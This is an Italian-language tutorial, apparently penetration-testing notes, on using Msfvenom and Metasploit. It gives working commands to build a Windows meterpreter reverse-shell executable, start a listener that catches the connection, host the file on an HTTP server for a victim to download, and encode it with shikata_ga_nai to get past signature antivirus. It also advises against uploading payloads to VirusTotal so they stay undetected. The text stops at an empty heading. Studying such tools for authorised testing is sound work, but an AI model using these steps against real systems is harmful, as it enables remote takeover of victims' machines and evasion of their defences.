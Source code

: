
# Msfvenom

Un **attacco client-side** è un attacco in cui si induce un client (cioè l'utente) ad eseguire un payload dannoso sul proprio sistema. Questo permette all’attaccante di ottenere l’accesso remoto al dispositivo della vittima. Questi attacchi si basano spesso su **tecniche di ingegneria sociale**, come l’invio di documenti infetti, link contraffatti, file eseguibili mascherati o PEs.

I **PE (Portable Executable)** sono file binari tipici dei sistemi Windows, con estensione `.exe` o `.dll`, che contengono codice eseguibile. Vengono spesso utilizzati per veicolare payload all’interno di attacchi client-side, poiché Windows li esegue direttamente se attivati dall’utente.

A differenza degli attacchi client-side, gli **attacchi server-side** mirano a sfruttare vulnerabilità direttamente su un servizio esposto da un server (come Apache, MySQL, SMB, ecc.), senza bisogno del coinvolgimento dell'utente.

In questo contesto si inserisce **Msfvenom**, uno strumento da riga di comando integrato in Metasploit Framework che consente di generare, personalizzare e codificare payload dannosi per diverse piattaforme. Msfvenom nasce dalla fusione di due utility precedenti:

- `msfpayload` → serviva a generare il payload.
- `msfencode` → serviva a codificare il payload per evitarne il rilevamento.

Oggi entrambe sono state rimpiazzate da `msfvenom`.

---

## Documentazione e Payload Disponibili

Per visualizzare la documentazione:
```bash
msfvenom
```

Per elencare tutti i payload disponibili:
```bash
msfvenom --list payloads
```

---

## Stage e No-Stage Payload

I **stage payload** sono payload modulari suddivisi in due fasi: un piccolo "stager" viene eseguito inizialmente e poi scarica il resto del payload. Questo permette di ridurre la dimensione iniziale e aumentare la flessibilità.

I **no-stage payload** invece sono monolitici: tutto il codice è contenuto in un unico eseguibile, e non richiedono un secondo stadio.

**Esempio di stage payload:**
- `windows/meterpreter/reverse_tcp`

**Esempio di no-stage payload:**
- `windows/shell_reverse_tcp`

---

## Generazione di un Payload

Per generare un payload, bisogna specificare:
- L’architettura (`-a`) – es. `x86` o `x64`
- Il payload (`-p`)
- L’IP e la porta dell’attaccante (`LHOST`, `LPORT`)
- Il formato (`-f`)

Esempio:
```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > /tmp/payload.exe
```

Per visualizzare tutti i formati supportati:
```bash
msfvenom --list formats
```

---

## Attivazione del Listener

Per ricevere la connessione reverse del payload, è necessario configurare un **listener** in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_attaccante>
set LPORT <PORT>
run
```

> Il payload usato nel `multi/handler` **deve combaciare esattamente** con quello specificato in fase di generazione con `msfvenom`. In caso contrario, la sessione non verrà interpretata correttamente.

---

## Hosting del Payload

Per consegnare il file alla vittima, si può usare un server HTTP semplice:
```bash
sudo python3 -m http.server 80
```

Poi, basterà fornire alla vittima un link del tipo:
```
http://<IP_attaccante>/payload.exe
```

In ambienti di test, questo approccio consente di simulare efficacemente un attacco client-side, sfruttando la disattenzione o la mancanza di competenze della vittima.

---

## Encoding dei Payload

Gli **encoder** sono moduli di Msfvenom che permettono di **modificare il codice binario (shellcode)** di un payload per **alterarne la firma**. Questo può servire a eludere gli antivirus, specialmente quelli che usano il **rilevamento basato su firme**.
> Il **shellcode** è il nucleo del payload, una sequenza di istruzioni in linguaggio macchina che viene eseguita quando il payload è attivato. In un payload come `meterpreter`, il shellcode è responsabile dell’instaurazione della sessione con l’attaccante. <br> Codificando il shellcode con un encoder, ne cambiamo la forma binaria mantenendo inalterata la funzionalità.

Gli antivirus, infatti, memorizzano le firme note di file malevoli in un database: se un file coincide con una di queste firme, viene identificato come pericoloso. L’**encoding** serve quindi a **modificare il bytecode del payload**, mantenendone il comportamento ma cambiandone l’impronta digitale.

Per elencare tutti gli encoder disponibili:
```bash
msfvenom --list encoders
```

Ogni encoder è classificato con un rank (es. `excellent`, `good`, `normal`, `low`, `manual`) e include una breve descrizione.

Il più noto è:
- `x86/shikata_ga_nai` → un encoder polimorfico XOR che muta a ogni generazione, rendendo ogni payload leggermente diverso.

**Esempio di encoding con Msfvenom:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 5 -f exe > /tmp/payload_encoded.exe
```

- `-e` specifica l’encoder
- `-i` imposta il numero di iterazioni (più iterazioni → più variazioni nel bytecode)

> Si consiglia di **non caricare i payload su VirusTotal** o simili, poiché questi strumenti contribuiscono ad aggiornare i database degli antivirus, rendendo il tuo payload riconoscibile.

### Cos’è il Shellcode?



---
